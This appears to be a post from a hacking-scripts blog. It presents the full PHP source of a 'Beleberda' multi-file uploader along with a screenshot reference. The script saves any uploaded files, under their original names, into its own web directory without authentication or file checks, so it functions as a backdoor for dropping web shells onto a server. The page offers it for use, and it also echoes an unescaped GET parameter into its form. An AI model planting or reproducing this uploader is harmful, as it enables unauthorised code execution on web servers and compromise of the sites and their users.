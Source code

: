 ```yaml
---
id: 308
title: beleberda uploader script
author: admin
layout: post
guid: http://hackingscripts.com/?p=308
permalink: /beleberda-uploader-script/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

Beleberda uploader script

### Beleberda Uploader Script source code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;

&lt;head&gt;
  &lt;title&gt;bele&lt;/title&gt;
&lt;/head&gt;

&lt;body&gt;
&lt;?php


 if(empty($_GET['Nfiles']))$Nfiles=15;else $Nfiles=$_GET['Nfiles'];
if($_FILES['userfile']['tmp_name'][0]!=''){
	for($i=0;$i&lt;$Nfiles&&$_FILES['userfile']['tmp_name'][$i]!='';$i++){
	$uploaddir = dirname(__FILE__);//'/var/www/uploads/';
	$uploadfile = $uploaddir .'/'. basename($_FILES['userfile']['name'][$i]);
	print "&lt;pre&gt;";
	if (move_uploaded_file($_FILES['userfile']['tmp_name'][$i], $uploadfile)) {
	   print "File is valid, and was successfully uploaded. ";
	   //print_r($_FILES);
	} else {
	   print "Possible fie upload attack!  Here's some debugging info:\n";
	   //print_r($_FILES);
	}
	print "&lt;/pre&gt;";
	}
}
?&gt;
&lt;form action="&lt;?php echo $_SERVER['PHP_SELF'].'?Nfiles='.$Nfiles; ?&gt;" method="post" enctype="multipart/form-data"&gt;
  Send beleberda:&lt;br&gt;
  &lt;?php for($i=0;$i&lt;$Nfiles;$i++){echo '&lt;input name="userfile[]" type="file"&gt;&lt;br&gt;';}?&gt;
  &lt;input type="submit" value="Send files"&gt;
&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;
</pre>

A screenshot of the Beleberda script:<figure id="attachment_392" style="width: 268px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png" alt="beleberda script screenshot" width="268" height="468" class="size-full wp-image-392" />][1]<figcaption class="wp-caption-text">Beleberda script screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png